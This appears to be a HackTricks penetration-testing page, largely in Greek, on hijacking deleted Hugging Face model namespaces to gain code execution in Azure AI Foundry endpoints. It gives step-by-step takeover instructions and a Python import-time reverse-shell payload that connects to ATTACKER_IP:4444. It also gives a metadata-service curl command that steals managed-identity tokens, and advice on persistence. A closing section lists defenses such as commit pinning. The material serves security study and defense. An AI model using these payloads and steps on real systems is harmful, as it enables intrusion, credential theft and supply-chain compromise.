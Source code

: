 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Σενάριο

- Το Azure AI Foundry Model Catalog περιλαμβάνει πολλά μοντέλα Hugging Face (HF) για ανάπτυξη με ένα κλικ.
- Οι αναγνωριστές μοντέλων HF είναι Author/ModelName. Αν ένας HF author/org διαγραφεί, οποιοσδήποτε μπορεί να επανεγγράψει αυτόν τον author και να δημοσιεύσει ένα μοντέλο με το ίδιο ModelName στο legacy path.
- Pipelines και catalogs που τραβούν μόνο με όνομα (no commit pinning/integrity) θα επιλύονται σε attacker-controlled repos. Όταν το Azure αναπτύσσει το μοντέλο, ο loader code μπορεί να εκτελεστεί στο περιβάλλον του endpoint, παρέχοντας RCE με τα permissions του endpoint.

Συνηθισμένες περιπτώσεις takeover του HF:
- Ownership deletion: Old path 404 until takeover.
- Ownership transfer: Old path 307 to the new author while old author exists. If the old author is later deleted and re-registered, the redirect breaks and the attacker’s repo serves at the legacy path.

## Εντοπισμός Επαναχρησιμοποιήσιμων Namespaces (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Ολοκληρωμένη ροή επίθεσης κατά του Azure AI Foundry

1) Στο Model Catalog, εντόπισε HF μοντέλα των οποίων οι αρχικοί authors διαγράφηκαν ή μεταφέρθηκαν (ο παλιός author αφαιρέθηκε) στο HF.  
2) Επανακαταχώρησε τον εγκαταλελειμμένο author στο HF και αναδημιούργησε το ModelName.  
3) Δημοσίευσε ένα malicious repo με loader code που εκτελείται κατά το import ή απαιτεί trust_remote_code=True.  
4) Ανάπτυξε τον legacy Author/ModelName από το Azure AI Foundry. Η πλατφόρμα κατεβάζει το attacker repo· ο loader εκτελείται μέσα στο Azure endpoint container/VM, παρέχοντας RCE με endpoint permissions.

Παράδειγμα τμήματος payload που εκτελείται κατά το import (μόνο για επίδειξη):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Σημειώσεις
- Οι αναπτύξεις του AI Foundry που ενσωματώνουν το HF συνήθως κάνουν clone και import repo modules που αναφέρονται στο model’s config (π.χ., auto_map), κάτι που μπορεί να προκαλέσει code execution. Ορισμένες διαδρομές απαιτούν trust_remote_code=True.
- Η πρόσβαση συνήθως αντιστοιχεί στις permissions του endpoint (managed identity/service principal). Θεωρήστε το ως initial access foothold για data access και lateral movement εντός Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Καταγράψτε τις environment variables και τα MSI endpoints για tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Ελέγξτε το mounted storage, τα model artifacts και τις προσβάσιμες Azure services με το αποκτηθέν token.
- Εξετάστε το persistence αφήνοντας poisoned model artifacts εάν η πλατφόρμα επαναφορτώσει από το HF.

## Οδηγίες άμυνας για χρήστες του Azure AI Foundry

- Pin models by commit κατά τη φόρτωση από HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Κατοπτρίστε ελεγμένα μοντέλα HF σε ένα αξιόπιστο εσωτερικό registry και αναπτύξτε από εκεί.
- Σαρώστε συνεχώς τα codebases και defaults/docstrings/notebooks για hard-coded Author/ModelName που έχουν διαγραφεί/μεταφερθεί; ενημερώστε ή pin-άρετε.
- Επαληθεύστε την ύπαρξη του author και την προέλευση (provenance) του μοντέλου πριν από την ανάπτυξη.

## Recognition Heuristics (HTTP)

- Διαγραμμένος author: author page 404; legacy model path 404 until takeover.
- Μεταφερμένο μοντέλο: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Διασταυρούμενες Αναφορές

- Δείτε την ευρύτερη μεθοδολογία και τις σημειώσεις για την supply-chain:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Αναφορές

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
